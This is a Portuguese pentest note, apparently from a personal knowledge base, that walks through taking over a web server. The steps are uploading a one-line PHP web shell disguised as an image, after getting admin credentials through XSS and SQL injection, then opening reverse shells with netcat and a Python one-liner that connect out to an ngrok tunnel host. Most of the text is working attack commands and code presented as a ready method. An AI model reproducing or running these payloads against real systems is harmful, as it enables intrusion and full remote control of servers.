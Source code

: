 ```yaml
---
tags:
  - Pentest
  - WEB
---
```

Para que ocorra essa exploração, é necessário que primeiro já tenha conseguido as *credenciais do admin* por meio da exploração do **xss** e sql **injection**.

# Criando código malicioso para upload

Por meio da linguagem de programação aceita pelo servidor, vamos criar um código que tenha como ser anexado no servidor de forma *mascada*, ultilizando extensões que não sejam barradas por ele. No caso do servidor PHP criaremos como uma extensão 

```shell
nano shell.php5
nano shell.php7
nano shell.phtml
```

- O arquivo malicioso deve ser escrito da seguinte forma:

```php
<?php echo shell_exec($_GET["cmd"]); ?>
```

- Após escrever, fazer o upload do arquivo na página do admin no lugar de uma imagem

- Para testar  os comandos e ver se o arquivo está funcionando, basta rodar qualquer comando do terminal,  -> vamos no diretório **onde se encontra o upload realizado**

# Shell Reversa

Para criar uma shell reversa no servidor, primeiro criaremos um túnel **TCP** com o ngrok para a porta **789** com o netcat:

```shell
nc -lvp 789

./ngrok tcp 789
```

- nc -lvp 789 - **Servidor** que receberá as requisições e será a shell reversa
- ./ngrok tcp 789 - **Túnel** do ngrok que irá apontar o servidor do alvo para o nosso servidor local.

Para saber se no servidor do alvo existe um binário do netcat que aceitará nossa conexão, vamos digitar o seguinte comando e ver o retorno:

```shell
cmd= which nc
```

Para finalmente criarmos a shell reversa, basta colar o seguinte comando na url:

```shell
shell.php5?cmd=nc 8.tcp.ngrok.io 12346 -e /bin/bash
```

- ``8.tcp.ngrok.io`` - Túnel
- `12346` - Porta
-  `-e /bin/bash` - comando para abrir o bash dentro do servidor 

Quando a conexão for estabelecida, já teremos tomado total controle ao servidor:
## Reverse Shell com Python
Também é possivel encontrar Shells Reversas já escritas em outras linguagens pelo github como é o caso do Python.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

#-> ("10.0.0.1",4242) - trocar pelo host e a porta do Ngrok:
#-> ("8.tcp.ngrok.io",12346)

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("8.tcp.ngrok.io",12346));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

Assim que colar na url, daremos mais um comando shell para expandir esse terminal:

```python
python -c "import pty;pty.spawn('/bin/bash')"
```



